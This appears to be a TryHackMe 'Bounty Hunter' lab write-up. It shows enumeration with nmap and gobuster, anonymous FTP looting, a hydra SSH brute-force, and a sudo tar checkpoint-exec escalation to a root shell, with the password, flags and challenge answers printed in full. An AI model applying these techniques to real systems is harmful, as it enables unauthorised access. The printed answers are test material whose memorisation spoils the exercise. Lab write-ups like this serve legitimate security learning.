 

# Bounty Hunter - TryHackMe Writeup

This is a writeup for the "Bounty Hunter" challenge on TryHackMe, you can find [here](https://tryhackme.com/room/cowboyhacker). 

---



## Steps

### 1. Deploy the Machine
- Deployed the machine via TryHackMe .

### 2. Find Open Ports
- Scanned the target with `nmap`:
  ```bash
  nmap -A -sV -p- [VICTIM IP]
  ```
- Example:
  ```bash
  nmap -A -sV -p- 10.10.6.18
  ```
- Flags explained:
  - `-A`: Aggressive scan (OS detection, version detection, scripts, traceroute).
  - `-sV`: Detect service versions.
  - `-p-`: Scan all 65,535 ports.
- Results:
  ```
  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3 (ANONYMOUS logging enabled)
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  ```
- Open ports: 3 (21, 22, 80).

### 3. Web Enumeration
- Ran `gobuster` to find directories:
  ```bash
  gobuster dir -u http://[VICTIM IP] -w [WORDLIST PATH]
  ```
- Example:
  ```bash
  gobuster dir -u http://10.10.6.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
  ```
- Flags explained:
  - `dir`: Directory enumeration mode.
  - `-u`: Target URL.
  - `-w`: Wordlist path.
- Results:
  ```
  /images        (Status: 301)
  /server-status (Status: 403)
  ```
- nothing interesting but still checked manually `http://[VICTIM IP]` .. and still nothing

### 4. Explore FTP
- Connected to FTP with anonymous login (from the nmap scan):
  ```bash
  ftp [VICTIM IP]
  ```
- Used `ls` (FTP command: `dir` works too) and found two files: `task.txt` and `locks.txt`.
- Downloaded them:
  ```bash
  get task.txt
  get locks.txt
  ```
- Read `task.txt`:
  ```bash
  cat task.txt
  ```
- Output:
  ```
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.
  -lin
  ```
- Author: `lin`.
- Read `locks.txt`:
  ```bash
  cat locks.txt
  ```
- Output: A list of passwords (e.g., `RedDr4gonSynd1cat3`, `rEDdrAGOnSyNDiCat3`).

### 5. Brute-Force SSH
- Identified SSH as a brute-forceable service from the `nmap` scan (port 22).
- Used `hydra` with the `locks.txt` password list:
  ```bash
  hydra -l lin -P locks.txt [VICTIM IP] ssh
  ```
- Example:
  ```bash
  hydra -l lin -P locks.txt 10.10.6.18 ssh
  ```
- Flags explained:
  - `-l`: Single username (`lin` from `task.txt`).
  - `-P`: Password list file.
- Output:
  ```
  [22][ssh] host: 10.10.6.18  login: lin   password: RedDr4gonSynd1cat3
  ```
- Service: `ssh`.
- Password: `RedDr4gonSynd1cat3`.

### 6. Gain User Access
- Logged in via SSH:
  ```bash
  ssh lin@[VICTIM IP]
  ```
- Example:
  ```bash
  ssh lin@10.10.6.18
  ```
- Entered password `RedDr4gonSynd1cat3` and landed in:
  ```
  lin@bountyhacker:~/Desktop$
  ```
- Checked identity:
  ```bash
  id
  ```
- Output: `uid=1001(lin) gid=1001(lin) groups=1001(lin)`
- Listed files:
  ```bash
  ls
  ```
- Found `user.txt` and read it:
  ```bash
  cat user.txt
  ```
- Content: `THM{CR1M3_SyNd1C4T3}`

### 7. Privilege Escalation
- Searched for SUID binaries:
  ```bash
  find / -user root -perm /4000 2>/dev/null
  ```
- No unusual results, so checked `sudo` privileges:
  ```bash
  sudo -l
  ```
- Entered password `RedDr4gonSynd1cat3`:
  ```
  User lin may run the following commands on bountyhacker:
      (root) /bin/tar
  ```
- Found `/bin/tar` could be run as root. Visited [GTFOBins](https://gtfobins.github.io/gtfobins/tar/) and used:
  ```bash
  sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  ```
- Flags explained:
  - `-cf`: Create a tar file (`/dev/null` as dummy output).
  - `--checkpoint=1`: Trigger an action every 1 record.
  - `--checkpoint-action=exec=/bin/sh`: Execute `/bin/sh` when checkpoint is hit.
- Got a root shell:
  ```bash
  '# id'
  ```
- Output: `uid=0(root) gid=0(root) groups=0(root)`

### 8. Find Root Flag
- Searched for `root.txt`:
  ```bash
  '# find -name "root.txt" 2>/dev/null'
  ```
- Output: `./root/root.txt`
- Read it:
  ```bash
  '# cat /root/root.txt'
  ```
- Content: `THM{80UN7Y_h4cK3r}`

---

## Answers to Challenge Questions
1. **Who wrote the task list?**: `lin`
2. **What service can you brute-force with the text file found?**: `ssh`
3. **What is the user’s password?**: `RedDr4gonSynd1cat3`
4. **user.txt**: `THM{CR1M3_SyNd1C4T3}`
5. **root.txt**: `THM{80UN7Y_h4cK3r}`

---

## Tools Used
- `nmap`: Port and service enumeration.
- `gobuster`: Web directory enumeration.
- `ftp`: File retrieval.
- `hydra`: SSH brute-forcing.
- `ssh`: Remote login.
- [GTFOBins](https://gtfobins.github.io/): Privilege escalation guide.

---

## Lessons Learned
- Anonymous FTP can leak critical files like password lists.
- Brute-forcing with `hydra` is effective with a targeted wordlist.
- Checking `sudo -l` is a quick way to find privilege escalation paths.
- `tar` as a `sudo`-able command can spawn a root shell via GTFOBins.

---


